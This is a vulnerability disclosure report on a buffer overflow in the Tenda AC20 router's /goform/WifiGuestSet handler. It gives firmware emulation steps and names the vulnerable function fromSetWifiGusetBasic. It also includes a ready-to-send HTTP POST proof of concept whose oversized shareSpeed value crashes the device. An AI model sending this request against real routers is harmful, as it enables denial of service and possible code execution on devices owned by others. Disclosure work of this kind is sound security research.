

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)


## **Basic Information**

- **Vendor:** Shenzhen Tenda Technology Co., Ltd.
- **Vendor Website:** https://www.tenda.com.cn/
- **Affected Device Type:** Router
- **Affected Product:** AC20
- **Affected Product Version:** ≤ V16.03.08.12 (latest version)

------

## 1. Vulnerability Overview

A buffer overflow vulnerability has been discovered in the Tenda AC20 router.
 An attacker can trigger this issue by sending a specially crafted HTTP POST request to the `/goform/WifiGuestSet` path, potentially leading to a denial-of-service (DoS) attack or even remote code execution (RCE).

------

## 2. Vulnerability Details

The latest firmware for the AC20 router can be downloaded from the official Tenda website:
 **[AC20 Upgrade Software – Tenda Official Website](https://www.tenda.com.cn/material/show/3264)**

The firmware can be unpacked using this online tool:
 https://zhiwanyuzhou.com/multiple_analyse/firmware/

After unpacking, locate the `/bin/httpd` file.
 To emulate the environment, use the following command:

```bash
sudo chroot ./ ./qemu-mipsel-static ./bin/httpd
```




After starting the emulated environment, use IDA to locate the vulnerable function `fromSetWifiGusetBasic`.
 It was found that the value of `shareSpeed` is retrieved and then copied into the `src_1` array without performing a length check, resulting in a buffer overflow vulnerability.


Prerequisite: The request path must be `WifiGuestSet`.


Packet sending test


A segmentation fault was observed, confirming that a buffer overflow occurred.


## 3. POC

```bash
POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.102.145
Content-Length: 523
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

shareSpeed=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
```


## **4. Vulnerability Impact**

 An attacker could exploit this vulnerability to cause a buffer overflow, execute arbitrary commands, and escalate privileges.

## **5. Remediation**

1. Contact the relevant vendor to obtain a security patch and apply it promptly.
2. Coordinate with security vendors to update security blocking strategies in a timely manner.
3. Temporarily perform security checks on interface parameters.